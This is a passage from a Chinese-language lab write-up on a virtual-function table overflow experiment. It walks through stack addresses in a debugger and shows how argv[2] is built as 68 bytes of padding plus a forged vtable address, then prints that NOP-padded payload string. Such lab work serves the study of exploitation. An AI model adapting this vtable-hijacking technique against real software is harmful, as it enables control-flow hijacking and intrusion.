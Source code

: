 运行到if判断之后，根据压栈顺序判断ecx为argv[1]的地址，**000042EB5C为overflow.buf的地址**，下方**0042EB14为overflow1.buf的地址**。

![image-20221117173852227](2022-11-17-%E8%99%9A%E5%87%BD%E6%95%B0%E5%AE%9E%E9%AA%8C/image-20221117173852227.png)

执行代码到两步拷贝后，在栈中查看拷贝结果，两个箭头所指为输入的两个参数，刷灰的是64B的overflow1.buf，灰色后的第五个字节为1C804200是overflow的虚表地址，因此argv[2]构造为68B填充数据+4B伪造虚表地址（0042EB7C）。

```
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x7C\xEB\x42
```



![image-20221117174720392](2022-11-17-%E8%99%9A%E5%87%BD%E6%95%B0%E5%AE%9E%E9%AA%8C/image-20221117174720392.png)
